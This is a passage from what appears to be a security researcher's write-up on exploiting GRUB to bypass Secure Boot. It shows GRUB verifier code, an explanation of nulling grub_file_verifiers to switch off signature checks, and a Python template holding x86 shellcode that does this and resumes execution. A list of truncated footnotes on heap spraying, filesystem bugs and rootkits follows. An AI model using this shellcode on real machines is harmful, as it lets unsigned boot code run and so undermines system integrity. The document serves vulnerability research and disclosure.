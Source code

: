 ```c
        break;
    }

    if (!ver)
    {
      if (defer)
        {
          grub_error (GRUB_ERR_ACCESS_DENIED,
        	      N_("verification requested but nobody cares: %s"), io->name);
          goto fail_noclose;
        }

      /* No verifiers wanted to verify. Just return underlying file. */
      return io;
    }

...
}
```

To disable all the verifiers you just need to do a one word patch to make
`grub_file_verifiers` NULL so that for loop never asks for a single thing to be
verified, letting it return early.
I implemented this in some assembly to dynamically calculate the offset to it
based on a register.
After the patch that I restored corrupted values to allow GRUB to continue on as
before after `ret`'ing.

For example, the following was what I used, alongside how I got the values from
my target build:

```python
# r10 contains a pointer to grub_real_dprintf, so we are using the offset from
# there.
GRUB_REAL_DPRINTF = ...
# binwalk the image, finding the pgp module. look at the offset it uses:
# 000000001abc  003400000001 R_X86_64_64       0000000000000000 grub_file_verifiers + 0
# If you then find where the pgp module is loaded (from RIP, making it page
# aligned etc), you can use the 0x1abc (or whatever) offset to find where it
# was patched in if you inspect with gdb.
GRUB_FILE_VERIFIERS = ...
FV_OFFSET = GRUB_FILE_VERIFIERS - GRUB_REAL_DPRINTF
# obtain this one from observing R14 when we crash with an invalid instruction
R14 = ...
R14_OFFSET = R14 - GRUB_REAL_DPRINTF

# Clean resumption after disabling verifiers.
DISABLE_VERIFIERS_SHELLCODE = f"""
    mov rax, r10
    // maybe adjust to a sub, etc.
    add rax, {hex(FV_OFFSET)}
    movq [rax], 0
    add rsp, 48
    // issue here is we need to preserve r14, but the encoder trashes it.
    mov r14, r10
    add r14, {hex(R14_OFFSET)}
    mov rax, 0
    ret
"""
```


[^1]: You are an adult, I'm sure you can figure out how to do it.
[^2]: Amusingly, skp was completely unrelated to my GRUB work. I started it in
[^3]: So there is a long story on why you need to read the preempt count,
[^4]: I submitted the updated version to a zine, so waiting to see if that gets
[^5]: GRUB actually had [CVE-2020-27779](https://ubuntu.com/security/CVE-2020-27779)
[^6]: Travel Advice! If you go, do try to plan it and not yolo it.
[^7]: In Bill Demirkapi's talk ["Booting with Caution: Dissecting Secure Boot's Third-Party Attack Surface"](https://github.com/microsoft/MSRC-Security-Research/blob/master/presentations/2024_05_OffensiveCon/OffensiveCon24_Booting_With_Caution_BDemirkapi.pdf) at Offensive Con 2024, he said:
[^8]: My filesystem UAFs come from a fuzzed HFS+ bug which crashed with a null
[^9]: I HATE NTFS. I literally read [a book on filesystems](http://www.nobius.org/dbg/practical-file-system-design.pdf)
[^10]: Worth noting while ASLR is not technically a thing, you really
[^11]: Mainly on dev builds, but there is no issues porting my PoCs to signed
[^12]: What I'm calling a kSHELF loader is an adaption of SHELFs from [tmp.0ut 1-10](https://tmpout.sh/1/10/),
[^13]: The only forbidden bytes for my preferred heap spraying strat are 0x00 and
[^14]: Ok, this is where things get a bit confusing.
[^15]: This is a joke about free handling venomous snakes, as a guy got bit by
[^16]: If you want to detect this payload, see [MatheuZ's blog post](https://matheuzsecurity.github.io/hacking/ftrace-rootkit/).
[^17]: You also don't directly need to hook `ExitBootServices()` as there is an
[^18]: I'm using the hacker definition of a ["good bug"](https://blog.isosceles.com/what-is-a-good-linux-kernel-bug/).